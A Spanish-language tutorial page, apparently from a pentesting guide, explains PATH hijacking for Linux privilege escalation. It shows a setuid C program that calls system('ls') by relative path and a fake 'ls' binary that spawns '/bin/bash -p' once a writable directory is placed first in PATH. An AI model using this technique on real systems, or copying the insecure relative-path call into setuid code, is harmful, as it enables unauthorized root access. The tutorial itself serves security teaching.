 # Path Hijacking

El Path Hijacking es una técnica de escalada de privilegios, que si se combinan con, por ejemplo, el privilegio SUID o sudo, puede llegar a ser peligrosa.

## Conceptos importantes

La ruta absoluta es la ruta completa que comienza con el directorio raíz (/) y llega hasta el archivo o el directorio solicitado. Para conocer la ruta absoluta de un archivo o directorio, ejecute rápidamente el comando pwd, y se le mostrará la ruta completa.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Las rutas absolutas no cambian cuando cambia el directorio actual. Piensa en ellas como rutas codificadas, mientras que las rutas relativas son rutas dinámicas que cambian dependiendo de la ubicación actual del directorio de trabajo.

La idea que hay detrás del Path Hijacking es abusar del path para poder controlar el binario que se ejecuta al llamar a un binario con su ruta relativa.

Veámoslo mejor con un ejemplo:

```c
#include <stdio.h>

int main(){

    setuid(0);
    printf("[*] Mostrando el contenido del directorio actual usando /usr/bin/ls\n");
    system("/usr/bin/ls");

    printf("[*] Mostrando el contenido del directorio actual usando ls\n");
    system("ls");

    return 0;
}

```

Si lo ejecutamos sin modificar el path, obtenemos la siguiente salida:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Ahora vamos a modificar el path poniendo como primera ruta un directorio donde tenemos capacidad de escritura y ahí vamos a crear un binario que se llame ls que va a ser el que se ejecute cuando se haga la llamada a `system("ls");`

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Ahora, creamos en /tmp/test un binario llamado ls:

```c
#include <stdio.h>

int main(){

    system("/bin/bash -p");

    return 0;
}
```

De esta forma, al haber modificado el PATH, se ejecutará primero nuestro binario controlado y obtendremos una instancia de /bin/bash:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

